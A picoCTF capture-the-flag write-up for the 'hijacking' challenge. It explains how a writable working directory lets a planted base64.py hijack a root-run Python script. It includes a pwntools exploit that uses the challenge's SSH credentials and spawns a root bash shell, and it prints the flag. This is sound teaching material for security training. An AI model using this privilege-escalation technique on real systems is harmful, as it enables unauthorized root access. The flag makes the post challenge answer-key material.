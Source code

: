 # hijacking

## Challenge

The challenge description is as follows:

> Getting root access can allow you to read the flag.
> Luckily there is a python file that you might like to play with.
> Through Social engineering, we've got the credentials to use on the server.
> SSH is running on the server.
> 
> ```
> saturn.picoctf.net 56309
> Username: picoctf
> Password: rZSsB--vJK
> ```

In our home directory, we can find the file referred to by the description.
It is a hidden file named .server.py:

```
picoctf@challenge:~$ ls -al
total 16
drwxr-xr-x 1 picoctf picoctf   20 Mar 19 23:27 .
drwxr-xr-x 1 root    root      21 Mar 16 02:08 ..
-rw-r--r-- 1 picoctf picoctf  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 picoctf picoctf 3771 Feb 25  2020 .bashrc
drwx------ 2 picoctf picoctf   34 Mar 19 23:27 .cache
-rw-r--r-- 1 picoctf picoctf  807 Feb 25  2020 .profile
-rw-r--r-- 1 root    root     375 Mar 16 01:30 .server.py
```

The file contains the following Python code:

```py
import base64
import os
import socket
ip = 'picoctf.org'
response = os.system("ping -c 1 " + ip)
#saving ping details to a variable
host_info = socket.gethostbyaddr(ip) 
#getting IP from a domaine
host_info_to_str = str(host_info[2])
host_info = base64.b64encode(host_info_to_str.encode('ascii'))
print("Hello, this is a part of information gathering",'Host: ', host_info)
```

Notably, the file is owned by root.
If we check our sudo permissions, we can see that we are allowed to run the script as root:

```
picoctf@challenge:~$ sudo -l
Matching Defaults entries for picoctf on challenge:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoctf may run the following commands on challenge:
    (ALL) /usr/bin/vi
    (root) NOPASSWD: /usr/bin/python3 /home/picoctf/.server.py
```

However, the script fails when we try to run it:

```
picoctf@challenge:~$ sudo /usr/bin/python3 /home/picoctf/.server.py
sh: 1: ping: not found
Traceback (most recent call last):
  File "/home/picoctf/.server.py", line 7, in <module>
    host_info = socket.gethostbyaddr(ip) 
socket.gaierror: [Errno -5] No address associated with hostname
```

## Solution

Python will load modules from the current working directory before other locations.

We can see that it imports a few modules, such as `base64`.
We can take advantage of this by creating a file called base64.py.
When this gets imported, it will run any Python code inside.

Now, we can run the .server.py script as root and execute our Python code.
We use this to read the flag file, possibly by dropping us into a root shell.

## Exploit

```py
#!/usr/bin/env python3

from pwn import *

host = args.HOST or 'saturn.picoctf.net'
port = int(args.PORT or 54448)
username = 'picoctf'
password = 'rZSsB--vJK'

s = ssh(host=host, port=port, user=username, password=password)
io = s.process('/bin/sh', env={'PS1':''})
io.sendline(b"echo \"import os; os.system('/bin/bash'); exit()\" > base64.py")
io.sendline(b"sudo python3 /home/picoctf/.server.py")
io.interactive()
```

## Flag

```
picoCTF{pYth0nn_libraryH!j@CK!n9_6924176e}
```
